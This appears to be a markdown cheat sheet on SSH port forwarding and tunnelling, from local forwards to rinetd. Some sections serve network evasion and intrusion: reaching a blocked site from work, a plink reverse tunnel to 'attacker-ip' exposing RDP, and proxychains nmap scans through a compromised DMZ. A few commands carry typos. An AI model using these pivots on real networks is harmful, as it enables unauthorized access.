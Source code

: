 > References:
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html

# Pending References:
- https://vimeo.com/54505525

# Local Port Forwarding

```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

### Allow connections to a specific blocked server.

From work:
```
ssh -L 9001:banned-site.com:80 user@home
curl http://localhost:9001
```

Says we’re forwarding our local port 9001 to banned-site.com:80, through the gateway `home` (port 22).

![](https://chamibuddhika.files.wordpress.com/2012/03/localportforwarding.jpg)

```
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/sshsessionforwarding.jpg)

Allow remote connections to local port forwards (listening on all interfaces)
```
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine    #Remotely
```

### Access a port on your server which can only be accessed from localhost and not remotely.

From local machine:
```
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

Server acts as the gateway and binds server's port 5432 to local port 9000.

# Remote Port Forwarding

### Allow remote access to restricted network.

From work:
```
ssh -R 9001:intra-ssh-server:22 user@home
```
Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

From home:
```
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

### Allow public access to a local resource through a public server.

```
ssh -R 9000:localhost:3000 user@public_sever
```
```
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

# Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

# Tips
Monitoring Tunnels
```
netstat -tunelp
```

Avoid TTL
```
-nNT
```

# rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

# Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

# SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

# Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```

